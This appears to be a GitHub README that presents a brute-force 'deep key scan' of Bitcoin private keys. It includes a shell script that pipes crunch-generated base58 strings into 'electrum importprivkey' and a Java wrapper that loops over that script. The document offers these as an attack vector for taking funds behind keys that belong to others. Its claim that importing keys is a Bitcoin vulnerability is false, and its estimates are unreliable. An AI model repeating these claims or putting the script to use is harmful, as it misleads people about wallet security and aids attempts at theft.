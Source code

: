 # bitcoin-lost-deep-key-private-key
#lost bitcoin , deep key private key



#Github,

#	It might be possible to scan bitcoin private keys sitting on the network due to a vulnerability in the way bitcoin was #designed since there is nothing really safeguarding the internal framework of the bitcoin wallet either in classic, core or #other variants. Even by encrypting your wallet nothing prevents the importation of a private key by changing a configuration #flag in any wallet whether it is classic, core or a variant. I have attempted to test a basic attack vector using a password #generation program based on JTR and crunch (https://sourceforge.net/projects/crunch-wordlist/) to generate a range of base 58 #values based on bitcoin private keys and under further modification it is possible to continue to customize this form of #private key deep scan and execute it as a basic attack vector. The banking system should be notified not to get on-board with #the Bitcoin network, even though originally the bitcoin network might have represented a form of Independence from banking #institutions to by pass terrible fees from the banks and other dilemmas caused by most banks having full control.
#	As an example of private key generation and experimentation within the bitcoin network some private keys start with #L5..c4 or Ky..k1 < as an example 52 characters alpha-numeric no special characters, decoded they flip around to an address #starting with 1 as part of the end decoded process, similar to how paper wallets are printed exported and imported there is #nothing protecting a paper wallet if it is a known similar to how a private key bears no security or protection from import to #a wallet whether it is classic, core or a variant.
#	I estimate on a modern system this deep key scan for a small set of keys ranging in a few million private keys could #take anywhere from 3 to 4 months to generate and scan, furthermore I have written a crude script to try newly generated private #keys using “crunch” password generator to generate 52 character private keys starting with L or K.


# https://bitcoinelectrum.com/importing-your-private-keys-into-electrum/

#as an example using bash from a crude semi working type

#where the .txt files are private key deep search blocks generated by crunch password generator
#and electrum has to have a config flag flipped in order to import private keys, in order to being import
#you have to import a pre-existing working private key into electrum which is used here.

#!/bin/sh 

head -n1 L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt > newfile.txt 
cat newfile.txt 
perl -p -i -e 's/\R//g;' newfile.txt 
cat newfile.txt 
cat newfile.txt | electrum importprivkey - 
tail -n +2 "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt" > "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt.tmp" && mv "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt.tmp" "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt" 






#as a crude example using java in a non working model


/* 
 * To change this license header, choose License Headers in Project Properties. 
 * To change this template file, choose Tools | Templates 
 * and open the template in the editor. 
 */ 

//package deepkeysearch; 

import java.io.BufferedReader; 
import java.io.InputStreamReader; 

public class DeepKeySearch { 

    public static void main(String[] args) { 

        DeepKeySearch obj = new DeepKeySearch(); 



    System.out.println("Place in working directory of wordlists to process"); 

    System.out.println("Change text file rotation after L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt"); 



        String command = "./deepkey.sh"; 


        String output = obj.executeCommand(command); 


        System.out.println(output); 

    } 

    private String executeCommand(String command) { 

        StringBuffer output = new StringBuffer(); 

        int infinite = 99; 

        while (infinite != 100) { 


        Process p; 
        try { 
            p = Runtime.getRuntime().exec(command); 
            p.waitFor(); 
            BufferedReader reader = 
                            new BufferedReader(new InputStreamReader(p.getInputStream())); 

                        String line = ""; 
            while ((line = reader.readLine())!= null) { 
                output.append(line + "\n"); 

        System.out.println(output); 

            } 

        } catch (Exception e) { 
            e.printStackTrace(); 
        } 

        infinite = 1; 

        } 

        return output.toString(); 

        } 



    } 







